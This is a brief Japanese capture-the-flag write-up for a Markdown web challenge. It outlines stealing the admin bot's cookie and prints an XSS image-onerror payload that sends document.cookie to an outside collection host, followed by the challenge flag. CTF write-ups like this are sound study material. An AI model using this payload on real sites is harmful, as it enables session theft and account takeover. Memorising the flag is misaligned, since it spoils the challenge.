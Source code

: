 Attachment:

- index.js


<br />
### Solution

以下の手順で解きました。

1. Mark Downの方で、cookieを取るスクリプトを書く。

2. そのURLをAdmin Botに踏ませる。

3. そのCookieを使って、https://markdown.web.actf.co/flag にアクセスする。

<br />

使ったコードは以下です。
<pre>
&lt;img src=x onerror="(new Image).src='https://captureamerica.free.beeceptor.com/cool.jpg?'+document.cookie">
</pre>

<br />

Flag: `actf{b534186fa8b28780b1fcd1e95e2a2e2c}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

